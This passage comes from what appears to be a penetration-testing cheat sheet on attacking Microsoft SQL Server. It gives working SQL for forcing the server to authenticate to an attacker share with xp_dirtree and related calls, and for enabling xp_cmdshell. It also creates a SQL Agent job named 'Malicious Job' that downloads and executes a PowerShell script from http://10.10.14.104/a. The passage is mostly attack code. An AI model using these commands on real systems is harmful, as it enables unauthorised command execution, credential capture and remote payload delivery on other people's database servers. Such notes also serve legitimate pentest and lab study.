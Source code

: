 ```sql
EXEC xp_dirtree '\\<IP>\a';
EXEC xp_subdirs '\\<IP>\a';
EXEC xp_fileexist '\\<IP>\a';
```

## Command Execution

After escalating privileges to a `login` with the `sysadmin` role its possible to get CE.&#x20;

* Using xp\_cmdshell
* Creating a MSSQL Server Agent Job
* Create and execute [OLE Automation stored procedure](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/ole-automation-stored-procedures-transact-sql?view=sql-server-ver16).

#### Enable xp\_cmdshell

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;

EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

# Test
EXEC xp_cmdshell 'whoami';
```

### <mark style="color:yellow;">Command Execution via MSSQL Server Agent Job</mark>

Create a new job which uses Powershell to download and execute a script.

```sql
USE msdb;  
GO

EXEC sp_add_job  
    @job_name = N'Malicious Job';
GO

EXEC sp_add_jobstep  
    @job_name = N'Malicious Job',
    @step_name = N'Execute PowerShell Script',
    @subsystem = N'PowerShell',
    @command = N'(New-Object Net.WebClient).DownloadString("http://10.10.14.104/a")|IEX;',
    @retry_attempts = 5,
    @retry_interval = 5;
GO

EXEC sp_add_jobserver  
    @job_name = N'Malicious Job';
GO

EXEC sp_start_job
    @job_name = N'Malicious Job';
GO
```
